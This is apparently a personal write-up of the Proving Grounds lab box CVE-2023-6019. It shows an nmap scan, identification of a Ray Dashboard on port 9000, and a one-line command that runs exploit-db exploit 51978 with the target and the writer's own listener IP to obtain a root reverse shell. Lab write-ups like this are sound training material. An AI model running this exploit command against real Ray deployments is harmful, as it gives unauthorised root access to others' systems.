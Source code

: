 ```yaml
---
layout: writeup
title: CVE-2023-6019 - Proving Grounds
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the CVE-2023-6019 Box from Proving Grounds
image: # /assets/images/CVE-2023-6019/CVE-2023-6019.png
fig-caption: # Add figcaption (optional)
tags: [Ray OS]
---
```


Here is a writeup for a [Proving Grounds](https://www.offsec.com/labs/) box called CVE-2023-6019, and it is rated Intermediate by Proving Grounds and Easy by the community. I haven't seen it on any lists, it just says new so we'll see how it goes. As usual, we get started with an nmap scan, but I'm using my personal nmap script called [vbnmap](https://github.com/pentestpop/verybasicenum/blob/main/vbnmap.sh). 

```
PORT     STATE SERVICE
22/tcp   open  ssh
9000/tcp open  cslistener
```

When I visit port 9000, we can see this page: 

![CVE-2023-6019_1.png](/assets/images/CVE-2023-6019/CVE-2023-6019_1.png){: .center-aligned width="600px"}

I don't exactly see anything that sticks out here, but the tab seems to suggest a service called Ray Dashboard, which is confirmed by a link to the docs which takes us to [docs.ray.io](https://docs.ray.io/en/latest/ray-core/ray-dashboard.html).

![CVE-2023-6019_2.png](/assets/images/CVE-2023-6019/CVE-2023-6019_2.png){: .center-aligned width="600px"}

We can also just google the CVE the box is titled after which will ultimately lead us to [this exploit](https://www.exploit-db.com/exploits/51978) on exploit-db for a start. Seems simply enough. I read through the exploit, and it seems to require 4 arguments in this case: target, port, host (my kali IP), and listening port. 

![CVE-2023-6019_3.png](/assets/images/CVE-2023-6019/CVE-2023-6019_3.png){: .center-aligned width="600px"}

I change the copy the exploit from searchsploit and change the extension from `.txt` to `.py` and run`python3 51978.py -t 192.168.185.37 -p 9000 -L 192.168.45.231 -P 445`. 

![CVE-2023-6019_4.png](/assets/images/CVE-2023-6019/CVE-2023-6019_4.png){: .center-aligned width="600px"}

And we get a root shell. 

![CVE-2023-6019_5.png](/assets/images/CVE-2023-6019/CVE-2023-6019_5.png){: .center-aligned width="600px"}

That has to be the easiest box I've ever done on any service. I'm a bit confused as to how the box could have been rated Intermediate by anyone. Maybe the exploit wasn't on exploit-db when the box was created? Not sure, but either way that was quick. 

### Remediation Steps
1. Patch the Ray OS instance. 

### Lessons Learned
Whole lotta nada in this case. 